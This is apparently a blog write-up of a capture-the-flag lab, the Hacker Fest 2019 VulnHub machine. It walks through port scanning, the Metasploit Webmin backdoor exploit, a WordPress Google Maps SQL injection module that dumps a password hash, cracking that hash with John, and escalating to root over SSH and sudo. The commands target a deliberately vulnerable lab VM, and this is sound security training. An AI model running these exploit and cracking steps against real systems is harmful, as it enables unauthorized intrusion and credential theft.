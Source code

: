 ```yaml
---
published: true
category: writeup
title: Hack Fest
author: F3dai
image: https://imgur.com/P67U1JL.png
---
```


The machine was part of my workshop for Hacker Fest 2019 at Prague. Difficulty level of this VM is very “very easy”. There are two paths for exploit it. There are no intentional rabbit holes. There is a "[retracted]" injection (exploit is part of MSF). Recovered credentials (username + hash) can be cracked by John and rockyou.txt wordlist. Low priv shell can be gained through MSF exploit or trying the credentials against "[retracted]". Priv. esc. is simply done by "[retracted]".

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

### FTP

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

![ftp](https://imgur.com/HMUog0K.png)

Some simple enumeration and an understanding of back end web apps will get you the right information.

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)

Root access.

### Wordpress

Another attack vector is the Wordpress site on port 80.

![wordpress](https://imgur.com/QQEnpNS.png)

WPScan will be used to find any vulnerabilities and possible users on the website. Please note that you use a WPScan API Token from [here](https://wpvulndb.com) to view the vulnerable data.

<pre>wpscan --url http://192.168.56.112/ -e vp,u</pre>

![wpscan](https://imgur.com/RGq0tck.png)

After some research, the [Unauthenticated SQL Injection vulnerability](https://www.rapid7.com/db/modules/auxiliary/admin/http/wp_google_maps_sqli) seems like the best route to go down. There is a Metasploit module for this. 

Something else to note is the username 'webmaster' found on the Wordpress site. 

<pre>msfconsole
use auxiliary/admin/http/wp_google_maps_sqli
show options
set RHOSTS 192.168.56.112</pre>

![msfwp](https://imgur.com/0meG4gb.png)

The exploit has been correctly set up. Run the exploit.

<pre>exploit</pre>

![exploit](https://imgur.com/ppsBmh8.png)

A hash value has been returned with the correct username that was found before on the WPScan results.

<pre> 192.168.56.112:80 - Found webmaster $P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1 webmaster@none.local </pre>

Let's ask our friend John to crack it. Use rockyou.txt as the wordlist.

<pre>echo "$P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt</pre>

![john](https://imgur.com/anjD7Hz.png)

The password "kittykat1" has been returned.

Let's try connect via ssh:

<pre>ssh webmaster@192.168.56.112
kittykat1</pre>

![ssh](https://imgur.com/cR73wtu.png)

We are logged in as webmaster. 
Check the sudo privileges with the following command:

<pre>sudo -l</pre>

This user is basically already root so let's just change to root shell with the following:

<pre>sudo -i</pre>

And we are root.

![root](https://imgur.com/Xti6L5k.png)
